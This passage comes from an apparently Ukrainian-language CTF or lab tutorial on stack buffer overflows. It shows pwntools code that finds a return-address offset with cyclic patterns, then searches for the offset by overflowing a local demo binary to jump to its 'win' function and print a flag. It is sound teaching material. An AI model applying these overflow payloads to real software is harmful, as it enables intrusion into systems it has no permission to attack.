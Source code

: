 ```python
        # Знаходимо де це було в паттерні
        offset = cyclic_find(crashed_value)
        print(f"[+] Знайдено offset: {offset}")
    except:
        print("[-] Core dump недоступний")
finally:
    io.close()
```

**Як це працює:**
```
Cyclic pattern генерує унікальну послідовність:
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa...'

Кожні 4 байти унікальні!

Якщо програма крашнула з RIP = 'laaa' (0x6161616c):
offset = cyclic_find(0x6161616c)
# Знаходить де 'laaa' в паттерні
# Наприклад: offset = 44
```

### Метод 4: Binary search (автоматичний)

```python
from pwn import *

context.log_level = 'error'  # Тихий режим

def test_offset(offset):
    """Перевіряє чи працює offset"""
    try:
        elf = ELF('../build/stage05_demo_with_hint', checksec=False)
        io = process(elf.path)

        payload = b'A' * offset + p64(elf.symbols['win'])
        io.send(payload)

        output = io.recvall(timeout=1)
        io.close()

        return b'FLAG' in output
    except:
        return False

# Binary search від 50 до 100
low, high = 50, 100
while low < high:
    mid = (low + high) // 2
    print(f"[*] Тестую offset={mid}...", end=' ')

    if test_offset(mid):
        print("✓")
        high = mid
    else:
        print("✗")
        low = mid + 1

print(f"\n[+] Знайдено offset: {low}")
```

